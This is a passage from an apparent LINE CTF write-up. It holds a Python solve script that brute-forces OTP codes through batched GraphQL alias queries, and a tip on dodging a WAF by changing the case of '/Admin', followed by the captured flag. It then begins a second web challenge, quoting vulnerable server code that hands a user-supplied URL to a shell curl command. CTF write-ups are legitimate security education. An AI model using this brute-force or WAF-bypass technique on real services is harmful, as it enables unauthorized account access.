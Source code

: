 This is my solve script:
```python
import requests

def gen(idx):
  for j in range(5):
    yield ','.join([f'otp{i}:otp(u:$a,i:{idx},otp:"{str(i).zfill(3)}")' for i in range(200*j, 200*(j+1))])

for idx in range(40):
  for data in gen(idx):
    burp0_url = "http://34.84.220.22:7654/graphql?query=query+adragos($a:String!){"+data+"}"
    burp0_json={"variables": {"a": "admin"}}
    r = requests.post(burp0_url, json=burp0_json, proxies={'http': 'http://127.0.0.1:8080'})
    if 'OK' in r.text:
      print(idx)
      break

print("Exploit done")
```

After the script is finished, we can go to `/Admin` (notice the capital A, to bypass the waf) and get the flag.

**LINECTF{db37c207abbc5f2863be4667129f70e0}**

<a name="boom-boom-hell-"></a>
## Boom Boom Hell* (176 pts, 28 solves) - Web

Description:
```
Shall we dance? 🐻🐥🐰🎶

URL: http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp
```

This is all the challenge code:
```js
import {$, escapeHTML} from "bun";
import qs from "qs";

const port = process.env.PORT || 3000;
const logFile = process.env.LOGFILE || ".log";

const server = Bun.serve({
    host: "0.0.0.0",
    port: port,
    async fetch(req) {
        const url = new URL(req.url);
        if (url.pathname === "/chall") {
            const params = qs.parse(url.search, {ignoreQueryPrefix: true});
            if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
                return new Response("sorry, but the given URL is too complex for me");
            }

            const lyURL = new URL(params.url, "https://www.lycorp.co.jp");
            if (lyURL.origin !== "https://www.lycorp.co.jp") {
                return new Response("don't you know us?");
            }

            const rawFetched = await $`curl -sL ${lyURL}`.text();
            const counts = {
                "L": [...rawFetched.matchAll(/LINE/g)].length,
                "Y": [...rawFetched.matchAll(/Yahoo!/g)].length,
            }
```